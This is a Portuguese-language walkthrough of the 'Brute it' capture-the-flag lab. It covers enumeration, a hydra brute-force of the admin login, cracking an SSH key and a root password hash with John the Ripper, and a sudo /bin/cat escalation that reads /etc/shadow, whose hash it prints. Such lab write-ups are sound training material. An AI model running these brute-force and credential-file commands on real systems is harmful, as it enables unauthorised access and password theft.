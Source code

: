 # _**Brute it CTF**_
![](brute.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark> e em uma janela separada, o <mark>Gobuster</mark>
> ```bash
> nmap -sV -sS [ip_address]
> ```
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.tx
> ```
![](scan_nmap.jpg)  
![](scan_gobuster.jpg)  

Vamos abrir a página <mark>/admin</mark>  
Temos uma página de login!  
Inspecionando os elementos da página, temos a seguinte mensagem  

![](font_page.jpg)

## Ganhando acesso
Vamos utilizar o <mark>hydra</mark> para realizar um ataque de força bruta contra o usuário
> ```bash
> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.180.76 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
> ```
![](hydra_brute.jpg)

Agora, vamos realizar login com o usuário e senha encontrados 
<mark>Na página, encontramos um link de arquivo e uma flag</mark>  
O arquivo é uma chave RSA  
Copiamos para um arquivo normal  
Para quebrar uma chave RSA, vamos usar o John the Ripper, primeiro convertendo a chave para a ferramenta poder quebrar e depois, usando uma lista de palavras  
> ```bash
> ssh2john [file_name] > file.hash
> ```
> ```bash
> john --wordlist=../rockyou.txt file.hash
> ```
![](rsa2john.jpg)  

Vamos realizar login via ssh  
Primeiro, modificamos as permissões de arquivo  
```chmod 600 hash2```  
Agora, realizamos login
> ```bash
> ssh -i hash2 admin@[ip_address]
> ```
_**Connection closed**_

Vamos tentar com o outro usuário descoberto antes
> ```bash
> ssh -i hash2 john@[ip_address]
> ```
![](ssh_login.jpg)

## _**Escalação de privilégios**_
Primeiro, vamos verificar os privilégios de john através do comando ```sudo -l```
![](sudo.jpg)  

Após verificar, pesquisa-se no gpt o significado  
O usuário pode utilizar o comando ```/bin/cat``` com privilégios
Vamos buscar o arquivo que estamos procurando através do comando permitido

Para realizar escalação de privilégios, vamos partir da ideia de que podemos usar <mark>/bin/cat</mark>  
Um arquivo importante é <mark>/etc/shadow</mark>, contém senhas. O comando abaixo faz isso
> ```bash
> sudo /bin/cat /etc/shadow
> ```
Podemos ver que a senha para o usuário THM é um hash: $6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ

Vamos usar novamente John the Ripper para quebrá-la
> ```bash
> touch hash3 | echo '$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ' > hash3
> ```
> ```bash
> john --wordlist=../rockyou.txt hash3
> ```
![](final_john.jpg)

Após, basta logar como _root_ e obter a <mark>root flag</mark> com o comando cat
> ```bash
> cat /root/root.txt
> ```
